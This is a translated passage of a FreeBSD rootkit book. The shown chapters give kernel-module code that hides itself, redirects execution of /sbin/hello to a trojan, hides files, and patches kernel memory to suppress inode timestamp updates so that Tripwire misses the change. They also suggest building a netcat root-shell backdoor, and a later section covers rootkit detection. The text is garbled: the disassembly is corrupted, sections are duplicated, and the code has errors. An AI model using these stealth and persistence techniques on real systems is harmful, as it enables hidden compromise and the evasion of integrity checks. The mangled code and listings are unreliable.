从这些列表中可以看到 `modules` 是 `module` 结构体的双链尾队列。和 `linker_files` 列表一样，`modules` 也有一个关联的计数器，定义在 `/sys/src/kern/kern_module.c` 中：

```c
static int nextid = 1;
```

每加载一个内核模块，它就会变为 `nextid` 的值，然后加 1。`modules` 列表资源控制定义在 `<sys/module.h>` 头文件中：

```c
extern struct sx modules;
```

### 6.5.4 `module` 结构体

每个内核模块的上下文维护在 `module` 结构体中，定义在 `/sys/src/kern/kern_module.c` 中。以下列表描述了为了隐藏 `module` 需要理解的 `struct module` 中的字段。

```c
TA_ENTRY link;
```

该字段包含与 `module` 结构关联的指针，存储在 `modules` 列表中。在 `modules` 的插入、删除和遍历期间会引用该字段。

```c
char* name;
```

该字段包含内核模块名称。

### 6.5.5 示例

列表 6-5 显示了新的根内核，它现在可以隐藏自己。它通过从 `linker_files` 和 `modules` 列表中移除自己的 `linker_file` 和 `module` 结构来实现。为了保持一致性，它还减少了内核镜像的引用计数、链接文件计数器（`next_file_id`）以及模块计数器（`nextid`）。

注意：为了节省空间，`<sys/types.h>` 列出了重定向和文件隐藏例程。

```c
#include <sys/types.h>
#include <sys/param.h>
#include <sys/proc.h>
#include <sys/module.h>
#include <sys/sysent.h>
#include <sys/kernel.h>
#include <sys/system.h>
#include <sys/syscall.h>
#include <sys/sysproto.h>
#include <sys/malloc.h>
#include <sys/linker.h>
#include <sys/lock.h>
#include <sys/mutex.h>
#include <vm/vm.h>
#include <vm/vm_page.h>
#include <vm/vm_map.h>
#include <dirent.h>

#define ORIGINAL "/sbin/hello"
#define TROJAN "/sbin/trojan_hello"
#define T_NAME "trojan_hello"
#define VERSION "incognito-0.3.ko"

/*
 * 以下是你为了隐藏该模块需要引用的变量列表，
 * 未在任何头文件中定义。
 */
extern linker_file_t linker_files;
extern struct mtx kld_mtx;
extern int next_file_id;

typedef TAILQ_HEAD(module) modulelist_t;
extern modulelist_t modules;
extern int nextid;

struct module {
    TAILQ_ENTRY(module) link; /* 链起所有模块 */
    TAILQ_ENTRY(module) flink; /* 文件中的所有模块 */
    struct linker_file *file; /* 包含此模块的文件 */
    int refs; /* 引用计数 * */
    int id; /* 唯一 ID 号 * */
    char *name; /* 模块名 * */
    modeventhandler_t handler; /* 事件处理器 * */
    void *arg; /* 处理器的参数 */
    modspecific_t data; /* 模块特定数据 */
};

/*
 * 执行系统调用挂钩。
 * 将 ORIGINAL 的执行重定向到 TROJAN。
 */
static int
execve_hook(struct thread *td, void *syscall_args)
{
    ..
}

/*
 * getdirentries 系统调用挂钩。
 * 隐藏文件 T_NAME。
 */
static int
getdntries_hook(struct thread *td, void *syscall_args)
{
    ..
}

/* 加载/卸载时调用的函数。 */
static int
load(struct module *module, int cmd, void *arg)
{
    struct linker_file *file;
    struct module *mod;
    mtx_lock(&Giant);
    mtx_lock(&kld_mtx);
    /* 减少当前内核镜像的引用计数。 */
    (&linker_files)->tqh_first->refs--;
    /*
     * 遍历 linker_files 列表，寻找 VERSION。
     * 如果找到，减小 next_file_id 并从列表中移除。
     */
    TAILQ_FOREACH(lf, linker_files, link) {
        if (strcmp(lf->filename, VERSION) == 0) {
            next_file_id--;
            TAILQ_REMOVE(&linker_files, lf, link);
            break;
        }
    }
    mtx_unlock(&kld_mtx);
    mtx_unlock(&Giant);
    sx_xlock(&modules_sx);
    /*
     * 遍历模块列表，寻找 "incognito"。
     * 如果找到，递减 nextid 并从列表中移除。
     */
    TAILQ_FOREACH(mod, &modules, link) {
        if (strcmp(mod->u_name, "incognito") == 0) {
            nextid--;
            TAILQ_REMOVE(&modules, mod, link);
            break;
        }
    }
    sx_xunlock(&modules_sx);
    sysent[SYS_execve].sy_call = (sy_call_t*)execve_hook;
    sysent[SYS_getdentries].sy_call = (sy_call_t*)getdentries_hook;
    return(0);
}

static moduledata_t incognito_mod = {
    "incognito",       /* 模块名称 */
    load,               /* 事件处理器 */
    NULL,               /* 额外数据 **/
};

DECLARE_MODULE(incognito, incognito_mod, SI_SUB_DRIVERS, SI_ORDER_MIDDLE);
```

列表 6-5: `incognito-0.3.c`

现在，加载上述 KLD 后我们得到：

| Id | Ref | 地址 | 大小 | 名称 |
| :--- | :--- | :--- | :--- | :--- |
| 1 | | 0x0ca400000 | 63070 | kernel |
| 2 | 16 | 0x0ca31000 | 5668dc | acpi.ko |

```bash
$ sudo kldload ./incognito-0.3.ko
$ hello
May the schwartz be with you!
$ ls /sbin/tunefs
$ kldstat
```

| Id | Refs | 地址 | 大小 | 名称 |
| :--- | :--- | :--- | :--- | :--- |
| 1 | | 0xc0400000 | 6370c | kernel |
| 2 | 16 | 0xc0a31000 | 568dc | acpiko |

注意 `kldstat(8)` 的输出在安装 rootkit 前后是相同的——太酷了！
此时，你可以将 `hello` 的执行重定向到 `trojan_hello`，同时从系统中隐藏 `trojan_hello` 和 rootkit 本身（这随后会导致它无法被卸载）。只有一个留问题：当你将 `trojan_hello` 安装到 `/sbin/` 时，目录的访问时间、修改时间和更改时间会更新——这是某些情况异常的明显迹象。

## 6.6 防止访问、修改和更改时间更新

由于文件的访问时间和修改时间是可以设置的，因此你只需要通过简单的回滚这些时间来“防止”它们的更新。列表 6-6 展示了这一点：

```c
#include <errno.h>
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
    struct stat sb;
    struct time time[2];
    if (stat("/sbin", &sb) < 0) {
        fprintf(stderr, "STAT ERROR: %d\n", errno);
        exit(-1);
    }
    time[0].tv_sec = sb.st_atime;
    time[1].tv_sec = sb.st_mtime;
    /*
     * 对 /sbin/ 执行操作
     */
    if (utimes("/sbin", (struct time*)&time) < 0) {
        fprintf(stderr, "UTIMES ERROR: %d\n", errno);
        exit(-1);
    }
    exit(0);
}
```

列表 6-6: `rollback.c`

前面的代码调用 `stat` 函数获取 `/sbin/` 目录的文件系统信息。这些信息被放入变量 `sb` 中，它是由 `<sys/stat.h>` 定义的 `stat` 结构。相关的字段如下：

```c
time_t  atime;      /* 最后访问时间 */
time_t  mtime;      /* 最后修改时间 */
```

接下来，`/sbin/` 的访问时间和修改时间存储在 `timeval[]` 中，它是由 `<sys/time.h>` 定义的两个 `timeval` 结构：

```c
struct timeval {
  long        tv_sec;    /* 秒 */
  int tv_usec;         /* 微秒 */
};
```

最后，调用该函数来设置（或回滚）`/sbin/` 的访问时间和修改时间，从而“防止”它们更新。

### 6.6.1 更改时间

遗憾的是，更改时间无法设置或回滚，因为这违背了它记录所有状态更改（包括对访问或修改时间的修正）的目的。负责更新 inode 更改时间及其访问、修改时间的函数是 `ufsitimes`，它在 `/sys/ufs/vnops.c` 中的实现如下：

```c
void
ufsitimes(struct vnode *vp)
{
  struct inode *ip;
  struct timespec ts;
  ip = VTOI(vp);
  if ((ip->i_flag & (IN_ACCESS | IN_CHANGE | IN_UPDATE)) == 0)
    return;
  if ((vp->v_type == VBLK || vp->v_type == VCHR) && DOINGSOFT(vp))
    ip->i_flag |= IN_LAZYMOD;
  else
    ip->i_flag |= IN_MODIFIED;
  if ((vp->v_mount->mnt_flag & MNT_RDONLY) == 0)
    fs_timestamp(&ts);
    if (ip->i_flag & IN_ACCESS) {
      D_SET(ip, i_atime, ts.tv_sec);
      D_SET(ip, i_atimsec, ts.tv_nsec);
    }
  if (ip->i_flag & IN_UPDATE) {
      D_SET(ip, i_mtime, ts.tv_sec);
      D_SET(ip, i_mtimesec, ts.tv_nsec);
      ip->i_modrev++;
    }
  if (ip->i_flag & IN_CHANGE) {
      D_SET(ip, i_ctime, ts.tv_sec);
      D_SET(ip, i_ctimesec, ts.tv_nsec);
  }
  ip->i_flag &= ~(IN_ACCESS | IN_CHANGE | IN_UPDATE);
}
```

如果你将**粗体**所示行置空（nop），就可以有效地防止 inode 更改时间的所有更新。尽管如此，你需要知道这些行（即 `D_SET` 宏）在加载到主内存后的样子。

```bash
$ /boot/kernel/kernel | grep ufs_ftimes
c06c0e60 ufs_ftimes
$ objdump -d --address=0xc6c0e60 /boot/kernel/kernel
/boot/kernel: format elf32
Disassembly of .text:
```


```assembly
c06c0e60 <ufs_ftimes>:
c06c0e60: 55               push %ebp
c06c0e61: 89 e5               mov %esp,%esp
c06c0e63: 83 ec14               sub $0x14,%esp
c06c0e66: 89 5d f8               mov %ebx,xffffffff(%ebx)
c06c0e69: 88 4d 08               mov 0x8(%ebx),ecx
c06c0e6c: 89 75 fc               mov %esi,xffffffff(%ebx)
c06c0e6f: 8b 59 0c               mov 0xc(%ecx),ebx
c06c0e72: 88 53 10               mov 0x10(%ebx),edx
c06c0e75: f6 c2 07               test $0x7,%ecx(0x7),edx
c06c0e78: 74 1f               je c06c0e99<ufs_ftimes+39>
c06c0e7a: 8b 01               mov (%ecx),eax
c06c0e7c: 83 e8 03               cmp $0x3,%eax
c06c0e7f: 88 f8 01               mov %eax,1(%ecx)
c06c0e82: 76 1f               jbe c06c0ea<ufs_ftimes+43>
c06c0e84: 83 ca 08               or 0x8,%edx
c06c0e87: 89 53 10               mov %edx,0x10(%ebx)
c06c0e8a: 8b 41 10               mov 0x10(%ecx),eax
c06c0e8d: f4 60 36               test 0x1,%ecx)
c06c0e91: 74 2d               je c06c0ec0<ufs_ftimes+60>
c06c0e93: 83 e2 f8               and $0xffffffff,%edx
c06c0e96: 89 53 10               mov %edx,0x10(%ebx)
c06c0e99: 8b 5d f8               mov 0xffffffff,%ebx
c06c0e9c: 89 75 fc               mov 0xfffc(%esp),esi
c06c0e9f: 89 ec               mov %ebp,%esp
c06c0ea1: 5d               pop %ebp
c06c0ea2: c3               ret
c06c0ea3: 8b 41 10               mov 0x10(%ecx),edx
c06c0ea6: f6 40 6e               test 0x20,6e(%eax)
c06c0ea9: 75 08               jne c06c0eb4<vfs_itimes+24>
c06c0ebac: 83 24 ca               or 0x40,(edx)
c06c0aef: 89 53 10               mov 0x10(%ebx)
c06c0eb2: f6 40 6c               test 0x1,0x6c(%ebx)
c06c0eb5: 75 08               jne c06c0eb9<vfs_itimes+33>
c06c0ebb: 90               nop
c06c0ebc: 8d 74 26               lea 0x0(%esi),%esi
c06c0ebd: 8d 75 f0               lea 0xffffffff(%ebp),edx
c06c0ec3: 89 34 24               mov 0x24(%esp)
c06c0ec6: e8 53 08 ff               call c05b17<vfs_timestamp>
c06c0ec9: 8b 53 10               mov 0x10(%ebx),edx
c06c0cc2: f6 62 01               test 0x1,(edx)
c06c0cc5: 74 40               je c060cf10<vfs_itimes+b0>
c06c0cc8: 8b 43 00               mov 0x0(%ebx),edx
c06c0cd6: 83 78 14               cmp 0x1,0x14(%edx)
c06c0dea: 04 84 00               mov c060f9d<vfs_itimes+13d>
c06c0ce0: 8b 45 f0               mov 0xffffffff(%ebp),edx
c06c0ce3: 9b 83 80 00               mov 0x80(%ebx),edx
c06c0ce9: 89 c c1               mov %eax,%edx
c06c0ceb: 89 42 20               mov %eax,0x20(%edx)
c06c0cf1: c1 79               if test 0x1,%ecx
c06c0f01: 89 4a 24               mov %eax,0x24(%edx)
c06c0f04: 8b 43 00               mov 0x0(%ebx),edx
c06c0f07: 83 78 14               cmp 0x1,0x14(%edx)
c06c0f0b: 04 84 00               mov c060ff2<vfs_itimes+192>
c06c0f01: 9b 83 90 00               mov 0x80(%ebx),edx
```

```
c0c6f66: 83 78 14 01   cmpl   $0x1,0x14(%eb)
c0c6f6a: 74 56               je      c0c6f0c2 <ufs_items+0162>
c0c6f6c: 88 45 f0 00   mov      0xffffff0f(%eb),ecx
c0c6f6f: 93 83 00 00   mov      %8x(%eb),ecx
c0c6f75: 89 c1               mov      %ecx,ecx
c0c6f77: 89 42 30   mov      %ecx,0x30(%dx)
c0c6f7a: c1 f9 1f   sar      $0x1f,%ecx
c0c6f7d: 89 4a 34   mov      %ecx,0x34(%dx)
c0c6f80: 88 43 0c   mov      %0xc(%eb),ecx
c0c6f83: 83 78 14 01   cmpl   $0x01,0x14(%eb)
c0c6f87: 74 25               je      c0c6fae <ufs_items+0x1e>
c0c6f89: 88 83 00 00   mov      %8x(%eb),ecx
c0c6f8f: 88 46 04   mov      %e4(si),ecx
c0c6f92: 89 42 48   mov      %ecx,0x48(%dx)
c0c6f95: 8b 53 10   mov      %8x(%eb),ecx
c0c6f98: e9 f6 fe ff ff   jmp      c0c6e93 <ufs_items+0x33>
c0c6f9d: 93 83 00 00   mov      %8x(%eb),ecx
c0c6fa3: 88 45 f0 00   mov      0xffffff0f(%eb),ecx
c0c6fa6: 89 42 10   mov      %ecx,0x10(%dx)
c0c6fa9: e9 66 ff ff   jmp      c0c6e04 <ufs_items+0x94>
c0c6fb3: 93 83 00 00   mov      %8x(%eb),ecx
c0c6fb4: 88 46 04   mov      %e4(si),ecx
c0c6fb7: 89 42 24   mov      %ecx,0x24(%dx)
c0c6fb9: 8b 53 10   mov      %ecx,0x10(%dx)
c0c6fd2: e9 d1 fe ff   jmp      c0c6e093 <ufs_items+0x33>
c0c6fd5: 93 83 00 00   mov      %8x(%eb),ecx
c0c6fd8: 88 45 f0           mov      0xffffff0f(%eb),ecx
c0c6fcb: 89 42 20   mov      %ecx,0x20(%dx)
c0c6fce: e8 b0               call     c0c6f80 <ufs_items+0120>
c0c6fd0: 93 83 00 00   mov      %8x(%eb),ecx
c0c6fd6: 88 46 04           mov      %e4(si),ecx
c0c6fd9: 89 4a 1c           mov      %ecx,0x1c(%dx)
c0c6fdc: e9 66 ff ff   jmp      c0c6f04 <ufs_items+0xef>
c0c6fe1: 93 83 00 00   mov      %8x(%eb),ecx
c0c6fe7: 88 45 f0 00   mov      0xffffff0f(%eb),ecx
c0c6fea: 89 42 18   mov      %ecx,0x18(%dx)
c0c6fed: e9 44 ff ff   jmp      c0c6f36 <ufs_items+006>
c0c6fe2: 93 83 00 00   mov      %8x(%eb),ecx
c0c6fe8: 88 46 04           mov      %e4(si),ecx
c0c6fbb: 89 42 14   mov      %ecx,0x14(%dx)
c0c6fe9: e9 0a ff ff   jmp      c0c6f0d <ufs_items+ad>
c0c6103: 8d 66 00 00   lea      $0x00(%esi),si
c0c6109: 8d dc 27 00 00   lea      $0x01(%ed),edi
```

在此输出中，`DIP_SET` 被调用了六次。因此，在汇编中有三组奇怪的指令。接下来，在 `vfs_timestamp` 之后调用。最后，因为 `vfs_timestamp` 的调用可以被忽略。`DIP_SET` 修改了参数，其汇编涉及到通用寄存器。根据这些标准，周围的两个 `mov` 指令是匹配的。

### 6.6.2 示例

列表 6-7 将 `trojan_hello` 安装到 `/sbin/` 目录，而不更新其访问、修改或更改时间。程序首先保存了 `/sbin/` 的访问和修改时间。然后补丁 `udsitimes` 以防止更新更改时间。接下来，将二进制 `trojan_hello` 拷贝到 `/sbin/` 并回滚 `/sbin/` 的访问和修改时间。最后，恢复了 `udsitimes`。

```c
#include <errno.h>
#include <fcntl.h>
#include <kvm.h>
#include <limits.h>
#include <nlist.h>
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <sys/stat.h>

#define SIZE 450
#define NAME "trojan_hello"
#define DESTINATION "/sbin/"

/* Replacement代码 */
unsigned char nop_code[] = {0x90, 0x90, 0x90}; /* nop */

int main(int argc, char *argv[]) {
    int i, offset1, offset2;
    char errbuf[POSIX_MAX];
    kvm_t *kd;
    struct nlist nl[] = {NULL, NULL};
    unsigned char ufsitimes[SIZE];
    struct sb;
    struct timeval time[2];

    /* 初始化内核内存 */
    kd = kvm_open(NULL, NULL, O_RDWR, errbuf);
    if (kd == NULL) {
        fprintf(stderr, "ERROR: %s\n", errbuf);
        exit(1);
    }

    nl[0].n_name = "ufsitimes";
    if (kvm_getn(kd, nl) < 0) {
        fprintf(stderr, "ERROR: %s\n", errbuf);
        exit(1);
    }

    if (!nl[0].value) {
        fprintf(stderr, "ERROR %s not found\n", nl[0].n_name);
        exit(1);
    }

    /* 保存 ufsitimes 的副本 */
    if (kvm_read(kd, nl[0].value, ufsitimes, SIZE) < 0) {
        fprintf(stderr, "ERROR: %s\n", errbuf);
        exit(1);
    }

    /* 在 ufsitimes 中查找以下行：
     * DIP_SET(ip, ctime, ts.sec);
     * DIP_SET(ip, mtime, ts.nsec);
     */
    for (i = 0; i < SIZE - 2; i++) {
        if (ufsitimes[i] == 0x89 &&
            ufsitimes[i+1] == 0x42 &&
            ufsitimes[i+2] == 0x30) {
            offset1 = 1;
        }
        if (ufsitimes[i] == 0x89 &&
            ufsitimes[i+1] == 0x4a &&
            ufsitimes[i+2] == 0x34) {
            offset2 = 1;
        }
    }

    /* 保存 /sbin/bin 的访问和修改时间 */
    if (stat("/sbin/bin", &sb) < 0) {
        fprintf(stderr, "STAT ERROR: %d\n", errno);
        exit(1);
    }

    time[0].tv_sec = sb.st_atime;
```


time[1].tv_sec = sb.st_mtime;

/* 补丁 ufsitimes */

if (kvm_write(kd, nl[0].value, ufsitimes, SIZE) < 0) { // 注意：此处原文逻辑似乎有误，此处按原意翻译

```
c0c6f66:   83 78 14 01   cmpl   $0x1,0x14(%ebx)

c0c6f6a:   74 56               je      c0c6fc2 <ufs_items+0x162>

c0c6f6c:   8b 4d f0           mov    0xfffffff0(%ebp),%ecx

c0c6f6f:   8b 83 00 00 00 00   mov    0x0(%ebx),%eax

c0c6f75:   89 c1               mov    %eax,%ecx

c0c6f77:   89 4a 30           mov    %ecx,0x30(%edx)

c0c6f7a:   c1 f9 1f           sar    $0x1f,%ecx

c0c6f7d:   89 4a 34           mov    %ecx,0x34(%edx)

c0c6f80:   8b 4b 0c           mov    0xc(%ebx),%ecx

c0c6f83:   83 78 14 01       cmpl   $0x1,0x14(%eax)

c0c6f87:   74 25               je      c0c6fae <ufs_items+0x1ae>

c0c6f89:   8b 83 00 00 00 00   mov    0x0(%ebx),%eax

c0c6f8f:   8b 4e 04           mov    0x4(%esi),%ecx

c0c6f92:   89 4a 48           mov    %ecx,0x48(%edx)

c0c6f95:   8b 53 10           mov    0x10(%ebx),%edx

c0c6f98:   e9 f6 fe ff ff     jmp    c0c6ee93 <ufs_items+0x33>

c0c6f9d:   8b 83 00 00 00 00   mov    0x0(%ebx),%eax

c0c6fa3:   8b 4d f0           mov    0xfffffff0(%ebp),%ecx

c0c6fa6:   89 4a 10           mov    %ecx,0x10(%edx)

c0c6fa9:   e9 66 ff ff ff     jmp    c0c6f014 <ufs_items+0x94>

c0c6fb3:   8b 83 00 00 00 00   mov    0x0(%ebx),%eax

c0c6fb9:   8b 4e 04           mov    0x4(%esi),%ecx

c0c6fbc:   89 4a 24           mov    %ecx,0x24(%edx)

c0c6fbf:   8b 53 10           mov    0x10(%ebx),%edx

c0c6fc2:   e9 d1 fe ff ff     jmp    c0c6ee93 <ufs_items+0x33>

c0c6fc7:   8b 83 00 00 00 00   mov    0x0(%ebx),%eax

c0c6fcd:   8b 4d f0           mov    0xfffffff0(%ebp),%ecx

c0c6fd0:   89 4a 20           mov    %ecx,0x20(%edx)

c0c6fd3:   e8 b0 ff ff ff     call   c0c6f088 <ufs_items+0x128>

c0c6fd8:   8b 83 00 00 00 00   mov    0x0(%ebx),%eax

c0c6fde:   8b 4e 04           mov    0x4(%esi),%ecx

c0c6fe1:   89 4a 1c           mov    %ecx,0x1c(%edx)

c0c6fe4:   e9 66 ff ff ff     jmp    c0c6f04f <ufs_items+0xef>

c0c6fe9:   8b 83 00 00 00 00   mov    0x0(%ebx),%eax

c0c6fef:   8b 4d f0           mov    0xfffffff0(%ebp),%ecx

c0c6ff2:   89 4a 18           mov    %ecx,0x18(%edx)

c0c6ff5:   e9 44 ff ff ff     jmp    c0c6f03e <ufs_items+0xde>

c0c6ffa:   8b 83 00 00 00 00   mov    0x0(%ebx),%eax

c0c6f00:   8b 4e 04           mov    0x4(%esi),%ecx

c0c6f03:   89 4a 14           mov    %ecx,0x14(%edx)

c0c6f06:   e9 0a ff ff ff     jmp    c0c6f015 <ufs_items+0xad>

c0c6f0b:   8d 76 00           lea    0x0(%esi),%esi

c0c6f0e:   8d bc 27 00 00 00 00 lea    0x0(%edi,%eiz,1),%edi
```

在此输出中，`DIP_SET` 的调用行以**加粗**标出，最后两行对应你想 `nop` 掉的内容。以下是得出此结论的叙述：

首先，在 `ufs_items` 函数中，`DIP_SET` 被调用了六次。因此，在汇编中有三组奇怪的指令。接下来，在 `vfs_timestamp` 之后调用。最后，因为 `vfs_timestamp` 的调用可以被忽略。`DIP_SET` 修改了参数，其汇编涉及到通用寄存器。根据这些标准，周围的两个 `mov` 指令是匹配的。

### 6.6.2 示例

列表 6-7 将 `trojan_hello` 安装到 `/sbin/` 目录，而不更新其访问、修改或更改时间。程序首先保存了 `/sbin/` 的访问和修改时间。然后补丁 `ufsitimes` 以防止更新更改时间。接下来，将二进制 `trojan_hello` 拷贝到 `/sbin/` 并回滚 `/sbin/` 的访问和修改时间。最后，恢复了 `ufsitimes`。

```c
#include <errno.h>
#include <fcntl.h>
#include <kvm.h>
#include <limits.h>
#include <nlist.h>
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <sys/stat.h>

#define SIZE 450
#define NAME "trojan_hello"
#define DESTINATION "/sbin/"

/* Replacement代码 */
unsigned char nop_code[] = {0x90, 0x90, 0x90}; /* nop */

int main(int argc, char *argv[]) {
    int i, offset1, offset2;
    char errbuf[POSIX_MAX];
    kvm_t *kd;
    struct nlist nl[] = {{NULL}, {NULL}};
    unsigned char ufsitimes[SIZE];
    struct stat sb;
    struct timeval time[2];

    /* 初始化内核内存 */
    kd = kvm_open(NULL, NULL, NULL, O_RDWR, errbuf);
    if (kd == NULL) {
        fprintf(stderr, "ERROR: %s\n", errbuf);
        exit(1);
    }

    nl[0].n_name = "ufsitimes";
    if (kvm_nlist(kd, nl) < 0) {
        fprintf(stderr, "ERROR: %s\n", errbuf);
        exit(1);
    }

    if (!nl[0].n_value) {
        fprintf(stderr, "ERROR %s not found\n", nl[0].n_name);
        exit(1);
    }

    /* 保存 ufsitimes 的副本 */
    if (kvm_read(kd, nl[0].n_value, ufsitimes, SIZE) < 0) {
        fprintf(stderr, "ERROR: %s\n", errbuf);
        exit(1);
    }

    /* 在 ufsitimes 中查找以下行：
     * DIP_SET(ip, ctime, ts.sec);
     * DIP_SET(ip, mtime, ts.nsec);
     */
    for (i = 0; i < SIZE - 2; i++) {
        if (ufsitimes[i] == 0x89 &&
            ufsitimes[i+1] == 0x42 &&
            ufsitimes[i+2] == 0x30) {
            offset1 = i;
        }
        if (ufsitimes[i] == 0x89 &&
            ufsitimes[i+1] == 0x4a &&
            ufsitimes[i+2] == 0x34) {
            offset2 = i;
        }
    }

    /* 保存 /sbin/bin 的访问和修改时间 */
    if (stat("/sbin/bin", &sb) < 0) {
        fprintf(stderr, "STAT ERROR: %d\n", errno);
        exit(1);
    }

    time[0].tv_sec = sb.st_atime;
    time[1].tv_sec = sb.st_mtime;

    /* 补丁 ufsitimes */
    if (kvm_write(kd, nl[0].n_value, ufsitimes, SIZE) < 0) { // 注意：此处原文逻辑似乎有误，此处按原意翻译
```

愿黑客与你同在！

```
$ sudo tripwire --check
解析策略文件: /usr/local/etc/tripwire.tw.pol
*** 处理 Unix 文件系统 ***
正在执行完整性检查...
写入报告文件: /var/db/tripwire/report/slavetwo-20070305-074918.twr

# Tripwire(R) 2.3.0 完整性检查报告

报告生成者：      root
创建时间：      2007年3月5周一 07:49:18
数据库最后更新：  2007年3月5周一 07:28:11
```

扫描对象总数：69628
发现违规总数：0

======================================================================================

# 对象摘要：
====================================================================================

# 章节：Unix 文件系统
------------------------------------------------------------------------------------------------

无违规。
======================================================================================

# 错误报告：
======================================================================================

无错误

*** 报告结束 ***
----------------------------------------------------------------------------------------------------------------

> Tripwire 2.3 Portions copyright 2000 Tripwire, Inc. Tripwire 是 Tripwire, Inc. 的注册商标。本软件不提供`任何`保证；详情请使用 `--version`。此软件为免费软件，仅在特定条件下可重新分发或修改；详情请参阅 COPYING 文件。
版权所有。
完整性检查完成。

太棒了——Tripwire 报告未发现违规。
当然，你仍然可以做更多工作来改进这个 rootkit。例如，你可以掩盖系统调用钩子（如第 5.7 节所述）。

- 注意：离线分析本可以检测出该木马；毕竟，如果系统没有运行，你就无法躲在系统内部！

## 6.8 结语

本章的目的（无论你信不信）并不是为了诋毁 HID，而是为了展示通过结合全书中描述的所有技术可以实现什么。为了好玩起见，这里有另一个例子。

将第 2 章的 `icmp_input_hook` 代码与本章的 `execve_hook` 代码部分结合，创建一个能够执行用户态进程（如 netcat）以生成后门 root shell 的“网络触发器”。然后，将其与第 3 章的 `process_hiding` 和 `port_hiding` 代码结合，以隐藏 root shell 和连接。包含本章中的模块隐藏例程以隐藏 rootkit 本身。为了安全起见，再加入 netcat 的 `getdirentries_hook` 代码。

当然，这个 rootkit 还可以改进。例如，由于许多管理员将他们的防火墙/数据包过滤器设置为丢弃入站的 ICMP 数据包，可以考虑挂钩不同的 `*_input` 函数，例如 `tcp_input`。

# 7 检测


我们现在进入充满挑战的 rootkit 检测世界。通常情况下，你可以通过两种方式之一检测 rootkit：通过特征码，或者通过行为。*通过特征码检测*涉及扫描操作系统以寻找特定的 rootkit 特性（例如内联函数钩子）。*通过行为检测*涉及捕获操作系统的“撒谎”（例如，`sockstat(1)` 列出了两个打开的端口，但端口扫描显示有三个）。

在本章中，你将学习如何检测全书中描述的各种 rootkit 技术。但请记住，rootkit 和 rootkit 检测器之间处于永恒的军备竞赛中。当一方开发出新技术时，另一方就会开发出对抗技术。换句话之，今天有效的方法明天可能就不灵了。

### 7.1 检测调用钩子

如第 2 章所述，调用钩子实际上是关于重定向函数指针的。因此，要检测调用钩子，只需要确定函数指针是否仍然指向其原始函数。例如，你可以通过检查其系统结构 `sys_call` 成员来确定 `mkdir` 系统调用是否被挂钩。如果它指向 `mkdir`以外的任何函数，你就发现了一个调用钩子。

### 7.1.1 寻找系统调用钩子

列表 7-1 是一个旨在寻找（并卸载）系统调用钩子的简单程序。该程序带有两个参数被调用：要检查的系统调用名称及其对应的系统调用号。它还有一个可选的第三个参数，字符串 `"fix"`，如果发现钩子，它将恢复原始系统调用函数。

> 注意：以下程序实际上是 `checkcall.c`；我做了一些细微修改，使其在 FreeBSD 6 下可以顺利编译。我还做了一些外观上的修改，使其在打印时看起来更好。

```c
#include <fcntl.h>
#include <kvm.h>
#include <limits.h>
#include <nlist.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/sysent.h>

void usage();

int main(int argc, char *argv[]) {
    char errbuf[POSIX2_LINE_MAX];
    kvm_t *kd;
    struct nlist nl[] = {{NULL}, {NULL}, {NULL}, {NULL}};
    unsigned long addr;
    int callnum;
    struct sysent call;

    /* 检查参数。 */
    if (argc < 3) {
        usage();
        exit(-1);
    }

    nl[0].n_name = "sysent";
    nl[1].n_name = argv[1];
    callnum = (int)strtol(argv[2], (char **)NULL, 10);

    printf("Checking system call %d: %s\n\n", callnum, argv[1]);
```


## 代码示例：系统调用检查与修复

```c
kd = kvm_openfiles(NULL, NULL, NULL, O_RDWR, errbuf);

if (!kd) {
    fprintf(stderr, "ERROR: %s\n", errbuf);
    exit(-1);
}

/* 找到 sysent[1] 和 argv[1] 的地址。 */
if (kvm_list(kd, nl) < 0) {
    fprintf(stderr, "ERROR: %s\n", kvm_geterr(kd));
    exit(-1);
}

if (!nl[1].n_value) {
    fprintf(stderr, "ERROR: %s not found\n", nl[1].n_name);
    exit(-1);
}

addr = (uintptr_t)nl[0].n_value + callnum * sizeof(struct sysent);

if (kvm_read(kd, addr, &call, sizeof(struct sysent)) < 0) {
    fprintf(stderr, "ERROR: %s\n", kvm_geterr(kd));
    exit(-1);
}

if ((uintptr_t)call.sys_call != (uintptr_t)nl[1].n_value) {
    printf("ALERT! %s should point to %lx instead\n", nl[1].n_name, (unsigned long)nl[1].n_value);
} else if (argv[3] && strncmp(argv[3], "fix", 3) == 0) {
    printf("Fixing it...\n");
    call.sys_call = (sys_call_t)(uintptr_t)nl[1].n_value;
    if (kvm_write(kd, addr, &call, sizeof(struct sysent)) < 0) {
        fprintf(stderr, "ERROR: %s\n", kvm_geterr(kd));
        exit(-1);
    }
    printf("Done.\n");
} else {
    printf("%s is already fixed.\n", nl[1].n_name);
}
} else {
    printf("%s is correct\n", nl[1].n_name);
}

exit(0);
}

void usage() {
    fprintf(stderr, "Usage:\nckcall [system call function] [call number]<fix>\n");
    fprintf(stderr, "For a list of system calls see /sys/syscall.h\n");
}
```

## 执行示例

```bash
$ mkdir
$ ls -l
..
drwxr-xr-x 2 ghost ghost 512 Mar 23 14:12 1
drwxr-xr-x 2 ghost ghost 512 Mar 23 14:15 2
```

如你所见，它被捕获并卸载了。因为 `checkcall` 通过引用内核内存中的符号表工作，补丁此表将使 `checkcall` 失效。当然，你可以通过引用文件系统上的符号表来绕过这一点，但你就会受到文件重定向攻击的威胁。我之前提到的“持久军备竞赛”是指：

## 7.2 检测 DKOM

如第 3 章所述，DKOM 是最难检测的 rootkit 技术之一。这是因为你可以从内存补丁中卸载基于 DKOM 的 rootkit，这几乎不会留下任何特征。因此，为了检测基于 DKOM 的攻击，最好的办法是抓到操作系统的“谎言”。要做到这一点，你应该对你的系统的正常行为有良好的理解。

> 这种方法的局限性在于，你无法信任你正在检查的系统上的 API。

### 7.2.1 寻找隐藏进程

回顾第 3 章，为了用 DKOM 隐藏运行中的进程，你需要补丁 `allproc` 列表、`pidhashtbl`、父进程的子列表、父进程的进程组列表以及 `nproc` 列表。如果任何一个对象未被补丁，就可以作为石金测试来判断一个进程是否被隐藏。

然而，如果所有这些对象都被补丁了，你仍然可以通过在每次上下文切换之前（或之后）检查 `curthead` 来找到隐藏的进程，因为每个运行的进程在执行时都会将其上下文存储在 `curthead` 中。你可以通过在 `mi_switch` 的开头安装内联函数钩子来检查 `curthead`。

